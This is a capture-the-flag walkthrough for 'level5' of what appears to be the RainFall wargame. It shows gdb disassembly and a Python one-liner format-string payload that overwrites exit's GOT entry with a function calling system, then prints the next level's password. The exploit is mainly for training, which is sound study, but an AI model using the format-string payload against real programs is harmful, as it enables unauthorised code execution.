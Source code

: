 # Walkthrough level5

Here this is a format string exploitation to [override the GOT](https://medium.com/zh3r0/intro-to-pwn-protostar-format-strings-c86ca3458ad3) (Global Offset Table) with the "o" function address. GOT stores standard function addresses.
We need to locate the address where the function "exit" and "o" are located. "Exit" address is "0x8049838" and "o" address is "0x080484a4".

```bash
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp
   0x080484c5 <+3>:	sub    esp,0x218
   0x080484cb <+9>:	mov    eax,ds:0x8049848
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:	lea    eax,[ebp-0x208]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
=> 0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.

(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
=> 0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
   0x080483d6 <+6>:	push   0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.


(gdb) disas o
Dump of assembler code for function o:
=> 0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x18
   0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```

We must write "o" address "0x080484a4" at "exit" address "0x8049838". The same technique is used as in levels 3 and 4.

```bash
level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/level5
level4@RainFall:~$ cat /tmp/level5 - | ./level5
(...)
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
